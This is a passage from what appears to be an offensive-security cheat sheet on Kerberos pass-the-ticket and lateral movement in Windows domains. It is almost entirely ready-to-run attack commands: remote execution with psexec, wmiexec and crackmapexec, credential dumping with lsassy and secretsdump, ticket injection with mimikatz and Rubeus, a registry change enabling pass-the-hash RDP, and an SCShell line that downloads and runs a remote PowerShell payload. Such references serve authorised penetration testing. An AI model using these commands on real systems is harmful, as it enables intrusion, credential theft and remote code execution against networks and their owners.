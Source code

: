 Step 2: "Pass" the ticket

Tools can utilize the -k flag to specify a kerberos ticket/authentication. 
This uses the KRB5CCNAME enviornment variable set above. 
To use a different ticket, simply re-export a different ticket.

Some Examples:

Linux:
```bash
# try with -no-pass if you encounter errors
psexec.py -k 'DOMAIN/USER@TARGET'
wmiexec.py -k 'DOMAIN/USER@TARGET'
crackmapexec smb 0.0.0.0 --use-kcache
crackmapexec winrm 0.0.0.0 --use-kcache

lsassy -k $TARGETS
secretsdump.py -k 'DOMAIN/USER@TARGET'
```

Windows:
```powershell
#Load the ticket in memory using mimikatz or Rubeus
mimikatz.exe "kerberos::ptt ticket.kirbi"
.\Rubeus.exe ptt /ticket:ticket.kirbi

#List tickets in cache to cehck that mimikatz has loaded the ticket
klist

.\PsExec.exe -accepteula \\lab-wdc01.jurassic.park cmd
```

### RDP 

Enable RDP for admin accounts
```bash
enableRDP='reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f'
cme smb [snip] -x '$enableRDP' 

cme smb [snip] -x 'reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f'
```

```bash
xfreerdp  +compression +clipboard /dynamic-resolution +toggle-fullscreen /cert-ignore /bpp:8  /u:USER /pth:<NTLMHash> /v:HOST 

xfreerdp /d: /u: /pth:HASH /v:HOST /cert-ignore -dynamic-resolution /drive:Verified,/path/to/Verified /timeout:60000
```

### RPC

```bash
python scshell.py 'DOMAIN'/'USER'@192.168.1.11 -hashes :[...hash...] -service-name lfsvc

SCShell> C:\windows\system32\cmd.exe /c powershell.exe -nop -w hidden -c iex(new-object net.webclient).downloadstring('http://10.10.13.37:8080/payload.ps1')
```

